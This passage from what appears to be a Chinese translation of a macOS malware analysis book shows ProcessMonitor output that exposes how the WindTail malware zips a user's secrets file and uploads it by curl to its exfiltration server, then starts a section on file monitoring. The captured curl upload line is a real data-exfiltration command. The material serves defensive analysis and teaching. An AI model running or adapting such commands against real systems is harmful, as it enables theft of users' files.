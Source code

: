 ```
# **ProcessMonitor.app/Contents/MacOS/ProcessMonitor -pretty**
{
  "event" : "ES_EVENT_TYPE_NOTIFY_EXEC", 1
  "process" : {
    "pid" : 1202,
    "path" : "/usr/bin/zip",
    "arguments" : [
 "/usr/bin/zip",
      "/tmp/secrets.txt.zip",
      "/Users/user/Desktop/secrets.txt"
    ], 
    "ppid" : 1173 2
  }
}
{
  "event" : "ES_EVENT_TYPE_NOTIFY_EXEC", 3
  "process" : {
    "pid" : 1258,
    "path" : "/usr/bin/curl",
    "arguments" : [
      "/usr/bin/curl",
      "-F",
      "vast=@/tmp/secrets.txt.zip",
      "-F",
      "od=1601201920543863",
      "-F",
      "kl=users-mac.lan-user",
      "string2me.com/.../kESklNvxsNZQcPl.php" 4
    ],
    "ppid" : 1173
  }
}
% ps -p 1173 
  PID TTY     TIME      CMD
  1173 ??     0:00.38   ~/Library/Final_Presentation.app/Contents/MacOS/usrnode 5
```

清单 7-2：使用 ProcessMonitor 揭示文件外泄功能（WindTail）

在 ProcessMonitor 的输出中，我们看到恶意软件首先创建了一个文件的 ZIP 档案以进行收集 1，然后使用`curl`命令 3 将该档案外泄。作为附加奖励，传递给`curl`的命令行选项揭示了恶意软件的外泄服务器 string2me.com 4。报告的父进程标识符（`ppid`）提供了一种将子进程与父进程关联的方法。例如，我们利用`ps`工具将报告的`ppid`（1173）2 映射到 WindTail 的持久化组件*Final_Presentation.app/Contents/MacOS/usrnode* 5。

虽然进程监控可以被动而高效地为我们提供宝贵的信息，但它只是全面动态分析方法中的一个组成部分。在下一节中，我们将讨论文件监控，它可以为恶意软件的行为提供互补的洞察。

## 文件监控

*文件监控*是被动地观察主机文件系统中的感兴趣事件。在感染过程以及有效载荷执行过程中，恶意软件可能会访问文件系统并以各种方式进行操作，例如将脚本或 Mach-O 二进制文件保存到磁盘、创建启动项等机制以保持持久性，访问用户文档，可能是为了向远程服务器进行数据外泄。

尽管我们有时可以通过进程监控间接观察到当恶意软件将操作委托给系统实用程序时的文件访问，更多复杂的恶意软件可能完全自包含，不会产生任何额外的进程。在这种情况下，进程监控可能帮助不大。无论恶意软件的复杂性如何，我们通常可以通过文件监控来观察恶意软件的行为。
